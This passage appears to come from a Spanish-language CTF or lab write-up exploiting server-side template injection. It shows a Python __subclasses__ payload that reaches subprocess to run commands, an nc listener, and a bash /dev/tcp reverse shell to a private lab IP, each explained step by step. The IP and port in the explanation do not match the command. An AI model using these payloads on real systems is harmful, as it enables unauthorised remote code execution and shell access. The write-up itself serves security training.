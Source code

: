 >Ya tenemos nuestro Payload, ahora por ultimo, recogemos la salida de todo el proceso con el método communicate() :

```python
' '.__class__.__mro__[1].__subclasses__()[496]('id', shell=True, stdout=-1).communicate()
```

![\1](Attachments/Pasted%20image%2020250515021156.png)

>TENEMOS RCE :3

>Sin perder mas tiempo, vamos a entablarnos una reverse Shell
>Debemos disponer nuestra máquina para recibir una Shell desde otro equipo, para esto, nos ponemos en escucha por el puerto 12345 con “nc”:

![\1](Attachments/Pasted%20image%2020250515022408.png)
1. nc Es un binario multipropósito, sirve para ejecutar shells, transferir archivos, enviar y recibir datos, etc, etc…
2. -n Igual que con nmap, este parámetro nos quita la resolución automática de nombres de host (para acelerar el proceso)
3. -l Con este parámetro entramos en un modo de escucha de conexiones
4. -v El modo verbose lo usamos para ver más detalles sobre la escucha e información de la conexión1
5. -p con este parámetro indicamos el puerto que estará en escucha, en este caso el 12345

>Ya estando en escucha, insertamos nuestro payload:

![\1](Attachments/Pasted%20image%2020250515022602.png)

```bash
bash -c "bash -i >%26 /dev/tcp/172.17.0.2/12345 0>%261")
```
_//El %26 es una codificación en URL de “&” para que no hayan problemas//_
_Vamos a intentar entenderlo al máximo este comando:_
1. _bash -c Ejecuta lo siguiente dentro de las comillas como una subshell, en pocas palabras, ejecuta el comando entre comillas como si fuera un script de bash._
2. _bash -i Lanza una bash en modo interactivo (para tener una shell medianamente funcional)_
3. _>%26 /dev/tcp/172.17.0.1/1234 0>%261 Es una manera PROPIA de bash para abrir una conexión TCP hacia una ip y un puerto, con la primera parte >%26 /dev/tcp/ip/puerto dirigimos el stdout (respuestas de la shell) de la maquina victima a nuestra ip, y con la segunda parte 0>%261 indicamos que el stdin(comandos que insertamos) de nuestra máquina irá a la ip victima para ser interpretado. En pocas palabras, abrimos una comunicación bidireccional entre nuestra ip y la ip victima, redireccionando nuestra entrada estándar (stdin) y la salida estándar de la víctima (stdout)._